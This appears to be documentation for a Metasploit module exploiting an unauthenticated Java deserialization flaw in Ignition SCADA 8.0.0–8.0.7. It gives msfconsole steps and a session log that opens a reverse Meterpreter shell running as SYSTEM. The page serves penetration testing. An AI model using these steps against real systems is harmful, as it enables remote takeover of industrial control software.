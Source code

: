 ## Vulnerable Application
This module exploits a Java deserialization vulnerability in the Inductive Automation Ignition SCADA product,
versions 8.0.0 to (and including) 8.0.7.
This exploit was tested on versions 8.0.0 and 8.0.7 on both Linux and Windows.
The default configuration is exploitable by an unauthenticated attacker, which can achieve remote code execution as
SYSTEM on a Windows installation and root on Linux.
The vulnerability was discovered and exploited at Pwn2Own Miami 2020 by the Flashback team (Pedro Ribeiro +
Radek Domanski).

Vulnerable versions can be downloaded from here: https://inductiveautomation.com/downloads/archive/8.0.7
We have confirmed versions 8.0.0 to 8.0.7 are vulnerable. Once installed, the application must be configured through the
web interface on port 8088 before it is vulnerable.

## Verification Steps

1. Install application
2. Start msfconsole
3. Do: `use exploit/multi/scada/inductive_ignition_rce`
4. Do: `set rhost <TARGET_IP>`
5. Do: `set lhost <YOUR_IP>`
6. Do: `run`
7. You will get a SYSTEM or root shell

## Options

```
Module options (exploit/multi/scada/inductive_ignition_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    8088             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Windows
   2   Linux
```

## Scenarios
```
msf exploit(multi/scada/inductive_ignition_rce) > set rhost 10.10.10.204
rhost => 10.10.10.204
msf exploit(multi/scada/inductive_ignition_rce) > set lhost 10.10.10.1
lhost => 10.10.10.1
msf exploit(multi/scada/inductive_ignition_rce) > check

[*] 10.10.10.204:8088 - Detected version 8.0.7
[*] 10.10.10.204:8088 - The target appears to be vulnerable.
msf exploit(multi/scada/inductive_ignition_rce) > run

[*] Started reverse TCP handler on 10.10.10.1:4444
[*] 10.10.10.204:8088 - Attacking Windows target
[*] 10.10.10.204:8088 - Detected version 8.0.7
[*] 10.10.10.204:8088 - Sending payload...
[+] 10.10.10.204:8088 - Success, shell incoming!
[*] Sending stage (180291 bytes) to 10.10.10.204
[*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.204:49186) at 2020-06-12 11:16:54 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 784 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\Inductive Automation\Ignition>whoami
whoami
nt authority\system

C:\Program Files\Inductive Automation\Ignition>
```

